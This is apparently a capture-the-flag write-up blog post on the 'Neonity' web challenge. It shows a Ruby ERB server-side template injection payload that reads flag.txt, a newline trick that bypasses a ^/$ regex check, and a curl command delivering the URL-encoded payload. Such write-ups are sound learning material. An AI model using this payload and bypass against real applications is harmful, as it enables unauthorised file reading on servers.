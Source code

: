 ```yaml
---
layout: post
title:  "Neonity"
---
```


## Hello Everyone
How are you doing guys! Hopefully you are doing great!
Today we will be doing Neonity.

![image](https://github.com/Unc3nny02/unc3nny02.github.io/assets/127601349/bd07df95-6f23-43a1-b39a-9cab8c74c100)

## Enumeration

Before downloading any files, I prefer to understand what I'm dealing with. This is my personal approach: I usually 
start with web challenges by interacting with the website. Next, I examine the deployment stack (Dockerfile, config 
files, etc.) for any useful information. Finally, I review the source code

![image](https://github.com/Unc3nny02/unc3nny02.github.io/assets/127601349/84907e71-f67a-453f-a11f-6d52c71b7e20)

It looks like a single-page application (no links or navigation) with a simple form that POSTs to / to neonify the entered 
text. Running a quick test with "Hello World" works as expected.

This is likely some type of template injection. However, entering "hello.sh" triggers a "Malicious Input Detected" message. 
It seems there is backend validation, and even a simple . breaks it. It might not be as straightforward as I initially thought.

## Source Code

Time to dive into some code and see what we’re working with!

After thoroughly examining the source code, I observed two key points:

  The neon parameter that is POSTed is passed into the template (potential for injection).
  There is a regex validation for neon that only permits alphanumeric characters and spaces.

This challenge will require a dual approach: executing a Server-Side Template Injection (SSTI) and bypassing the validation. 
The following code snippet shows the validation that needs to be bypassed.

![image](https://github.com/Unc3nny02/unc3nny02.github.io/assets/127601349/6536bd40-7b85-4717-85d4-f5572aa8ceb9)

## Exploitaion

There are numerous examples online for Server-Side Template Injection (SSTI) and Ruby in general. However, before we 
can use SSTI to read the flag.txt file, we need to bypass the regex validation. After some research, it appears that 
using ^ and $ within regex in Ruby can be problematic. Knowing that 
the regex can be bypassed with newlines, we can start looking for an exploit to read flag.txt.

```shell
   <%= File.open('flag.txt').read %> # Read file
```
Easy enough, but we have to url encode out payload, and it going to look like 

```shell
   %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E
```
What’s I really like about this challenge, is that it is one of those exploits that can be run directly in your browser. 
No need for any special tools! Although, I still prefer to use curl ;)

```shell
   # deliberate newline in console as `\n` fails to parse
   curl -d 'neon=a
   %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' <ip>:<port>
```
![image](https://github.com/Unc3nny02/unc3nny02.github.io/assets/127601349/c92df19c-e931-444f-9291-e8cac2cef0fc)

Yeah, it was that easy! Cheers
Hopefully you have learned something new  
Good bye :)








